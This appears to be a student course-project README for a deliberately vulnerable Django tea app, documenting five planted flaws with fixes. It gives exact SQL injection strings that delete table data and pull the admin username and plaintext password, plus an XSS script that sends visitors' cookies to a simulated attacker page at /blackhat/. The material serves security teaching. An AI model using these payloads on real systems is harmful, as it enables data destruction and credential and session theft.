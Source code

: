 # cybersecuritybaseproject
Course project for Introdution to cyber security

Project / flaw descriptions:

LINK: https://github.com/korolainenriikka/cybersecuritybaseproject

No specific installations / db migrations needed. Clone the project, cd to cybersecuritybaseproject/teetietokanta and run ```python3 manage.py runserver```. The app launches in (http://localhost:8000/)[http://localhost:8000/].

a note on testing the injections below (flaws 1-3): the injections are highly dependent on the quote types used, be careful with copy-pasting. The exact working injection is inside the double quotes.

security flaw descriptions:

## FLAW 1: SQL injection vulnerability in tea insert form submit handler enables data erasure, encryption, etc.
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/2f0970a2fc6ee4fdd777d39b4dde9a1a2f334661/teetietokanta/teet/views.py#L26
* description of flaw: The form submit is implemented using python sqlite3 library. A SQL command is executed with the executescript method, without a string template (simple +-sign concatenation is used), which enables a very easily-exploitable injection flaw. For example, when inserting the following site input: name: "tea deleter tea" and description "hyvä tee on joo'); DELETE FROM teet_tea; INSERT INTO teet_tea(name, description) VALUES ('hehee', 'maistas tuosta", an attacker could delete all tea data. Other, more severe injections such as DROP TABLES could also be executed, but if you try this, the other flaws cannot be tested with the same clone of the application, and you have to re-clone and launch the app (up to you, of course).
* how to fix: The most obvious fix would be to use execute() instead of executescript() and use string templates. However, because of queries such as UNION, some slightly more sophisticated vulnerabilities might still be left in the form handler. A fool-proof fix would be to use db operations supported by Django, in this case Tea.objects.create(name=name, description=description), as is shown in the commented line 30 of the submit handler.

## FLAW 2: Sensitive data exposure vulnerability: auth user credentials can be compromised with a SQL injection
* exact source link (same as flaw 1): https://github.com/korolainenriikka/cybersecuritybaseproject/blob/2f0970a2fc6ee4fdd777d39b4dde9a1a2f334661/teetietokanta/teet/views.py#L26
* description of flaw: a careless administrator had to note their password somewhere. As django by default only stores a password hash and the administrator thought it is smart to store password data close to where it is needed, the database has a table that contains the admin password in plaintext. The form submit handler makes it possible to fetch this password and other credentials from the password store table in a subquery. The admin credentials can be displayed on main page by submitting the form with two injection-performing inputs: first content being name: "admin username stealer tea", description: "admin username: ' || (SELECT username FROM auth_user) || ' " . The password can be retrieved with a similar query, using name: "admin password stealer tea" and description: "admin password: ' || (SELECT * FROM authuserpwdstore) || ' ".
* how to fix: obviously, store the admin password either in a password manager or memorize the password. Also the fixes presented in the flaw 1 section would fix this partially.

## FLAW 3: Cross-site scripting can be used to steal any site visitors' cookie data
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/master/teetietokanta/teet/templates/teet/index.html#L16
* description of flaw: the tea app template does not validate form input to avoid injecting js scripts to the application main page. Therefore it is possible to submit a tea to the app that has a script in the description to, for example, send any site visitors' cookie data to a malicious site. The app has an sub-app simulating the attackers' own web page in url /blackhat/ and with the following tea form inputs cookies can be sent to this page: name: "cookie stealer tea", description: "an especially sweet n nice one! <script>var xhr = new XMLHttpRequest(); var url = "blackhat/sendcontent/?cookie="+document.cookie; xhr.open("GET", url, true); xhr.send();</script>". After this tea is submitted, the user cookie appears on the /blackhat/-page every time the tea app index is re-loaded.
* how to fix: django has built-in xss protection in the templates, which is disabled using the 'safe' -keyword in the linked line in index.html. Removing this keyword fixes the flaw.

## FLAW 4: Security misconfiguration: insufficient admin password validation
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/master/teetietokanta/teetietokanta/settings.py#L89
* description of flaw: the password validation looks good on the surface, but it it missing one important validator: common password validation. Therefore it was possible to choose "password" as admin password. It would probably not require a lot of tries from an attacker to guess the right password and have full access to the admin panel of the application, where password can be changed, for example.
* how to fix: using Django default password config would suffice. The following validator config code snippet should be added to settings.py: {'NAME': 'django.contrib.auth.password_validation.CommonPasswordValidator'},

## FLAW 5: Insufficient logging & monitoring: all logs disabled
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/master/teetietokanta/teetietokanta/settings.py#L103
* description of flaw: as the application admin panel and terminal filled with arbitrary-looking data, the site administrator decided to change the site configuration to not display any of this data. Therefore no logs of usage of the site is saved, and no attacks can be proven to have happened as no 'digital footprint' is left behind in the application.
* how to fix: again, this flaw was implemented by disabling default django configurations. Removing the custom logs config altogether from settings.py (lines 101-104) would enable the safer default logging configuration.
